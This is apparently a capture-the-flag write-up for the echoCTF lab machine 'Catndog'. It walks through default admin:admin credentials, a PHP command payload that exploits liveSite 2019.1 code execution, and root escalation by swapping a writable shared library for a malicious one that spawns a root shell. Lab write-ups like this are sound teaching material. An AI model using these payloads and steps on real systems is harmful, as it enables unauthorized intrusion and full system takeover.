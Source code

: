 ```yaml
---
description: >-
  Catndog echoCTF Machine
title: Catndog (Advanced)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: [default credentials, ]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Catndog.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.242
```

### Content

- Default Credentials
- liveSite version 2019.1 - Remote Code Execution (RCE)
- Abuse a Writable .so in /usr/lib

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.242
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.242 ()   Status: Up
Host: 10.0.160.242 ()   Ports: 80/open/tcp//http///
```

### Exploitation
Checking service HTTP on port 80 I discovered that there is a web application, there is a login portal:
![](/assets/img/Pasted-image-20250609115703.png)

As usual, to login into the application I've found the default credentials `admin:admin` to access, even though an e-mail is needed, the user is admin. I've identified the following [liveSite version 2019.1 - Remote Code Execution (RCE)](https://packetstorm.news/files/id/176420), with this, we can execute the exploit, by first clicking on "Staff" menu, then clicking on "Edit" button which is the pencil symbol and finally, editing the Designer Region:

![](/assets/img/Pasted-image-20250609122926.png)

Then all you need to do is put a php payload such as `<?php echo system('cat /etc/passwd'); ?>` to exploit the RCE:

![](/assets/img/Pasted-image-20250609123113.png)

Finally, you'll see the output of your command at the end of the page:
![](/assets/img/Pasted-image-20250609123217.png)

All you need to do next is to execute your favorite reverse shell command! 

### Privilege Escalation
For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@catndog:/var/www/html/livesite$ sudo -l
Matching Defaults entries for www-data on catndog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on catndog:
    (ALL : ALL) NOPASSWD: /usr/local/bin/catndog.sh
```
Its content is like this:
```bash
#!/bin/bash
ldconfig
/usr/local/bin/catndog
```

The path for this one was to abuse a writable .so in `/usr/local/lib`, I concluded that because first I execute the `ldd` command which retrieves information about the binary libraries used for execution:
```bash
www-data@catndog:/var/www/html/livesite$ ldd /usr/local/bin/catndog
        linux-vdso.so.1 (0x00007ffff7fd0000)
        libcatndog.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dec000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fd2000)
```
If there is a "not found" library, it means the binary will lookup for it on the lib folder, in this case `/usr/local/lib` if the folder is writable then we have a straightforward privesc path:
```bash
www-data@catndog:/tmp$ ls -al /usr/local/lib/
total 32
drwxr-xr-x 1 root root   4096 Aug 30  2024 .
drwxr-xr-x 1 root root   4096 Apr 11  2023 ..
-rwxrwxrwx 1 root root  15984 Aug 30  2024 libcatndog.so
drwxrwsr-x 4 root staff  4096 Dec 26  2023 python2.7
drwxr-xr-x 3 root root   4096 Apr 19  2023 python3.9
```
Actually, there is alread a library called libcatndog.so in there, so all we need to do is replace it with our malicious one:

a) First create an evil.c with this content:

```bash
// evil.c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) init() {
    setuid(0); setgid(0);
    system("/bin/bash");
}
```

b) Compile it using the following command, you'll probably see some errors, just ignore them:
```bash
www-data@catndog:/tmp$ gcc -fPIC -shared -o libcatndog.so evil.c
```

c) And finally, place the library within the folder `/usr/local/lib/`:
```bash
www-data@catndog:/tmp$ cp libcatndog.so /usr/local/lib/
```

Finally execute the binary with sudo, and we'll have root shell:
```bash
www-data@catndog:/tmp$ sudo /usr/local/bin/catndog.sh
root@catndog:/tmp# whoami
root
```

And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`env` command
`/root`

### Credentials

Credentials identified for this machine are  `admin:admin`

### Notes

- Nothing fancy here, there is no good PoC to exploit this, only a simple description with a poor explanation, a lot of attempts were made to exploit this one, but once you understand even the less documented exploits you can made them work.

### References
- [liveSite version 2019.1 - Remote Code Execution (RCE)](https://packetstorm.news/files/id/176420)


